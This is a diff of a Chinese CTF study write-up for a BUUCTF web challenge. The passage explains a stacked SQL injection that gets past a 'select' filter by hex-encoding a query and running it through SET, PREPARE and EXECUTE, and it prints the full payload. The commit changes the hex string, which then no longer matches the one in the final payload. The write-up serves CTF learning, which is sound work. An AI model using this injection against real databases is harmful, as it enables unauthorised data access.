

Before and after one commit to adm3n-hnt/CTF-Study, a Markdown page: buuctf write up/web.md, the part around the change. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

```diff
--- a/buuctf write up/web.md
+++ b/buuctf write up/web.md
@@ -174,12 +174,12 @@ echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
 成功回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/8122d53a32c6179d396ce793725a8a9c.png)<br />注意没有回显flag，就类似于你更新了个东西但是没刷新，重新在文本框里面输入1提交即可回显flag。
 <a name="z4q8F"></a>
 ### 第二种解法 编码逃逸 绕过滤
-由于select被过滤，考虑使用编码进行绕过<br />使用select查询就很简单了<br />构造payload<br />`select *from where `1919810931114514``（注意这里使用反引号把这个数字包括住，md编辑器打不上去） <br />*号查询数据表里面的全部内容，这就是爆出flag的原理<br />进行16进制编码加密<br />`73656c656374202a2066726f6d206020313931393831303933313131343531342060`<br />最终payload：<br />`1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`
+由于select被过滤，考虑使用编码进行绕过<br />使用select查询就很简单了<br />构造payload<br />`select *from where `1919810931114514``（注意这里使用反引号把这个数字包括住，md编辑器打不上去） <br />*号查询数据表里面的全部内容，这就是爆出flag的原理<br />进行16进制编码加密<br />`73656c6563742a66726f6d7768657265603139313938313039333131313435313460`<br />最终payload：<br />`1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`
 > - prepare…from…是预处理语句，会进行编码转换。
 > - execute用来执行由SQLPrepare创建的SQL语句。
 > - SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
 > - 0x就是把后面的编码格式转换成16进制编码格式
-> - 那么总体理解就是，使用SET方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare...from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。
+> - 那么总体理解就是，使用SeT方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare...from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。
 参考：https://blog.csdn.net/qq_44657899/article/details/10323914
 
 回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/d9511654ed16ddd5152c6598b5fecbde.png)
```
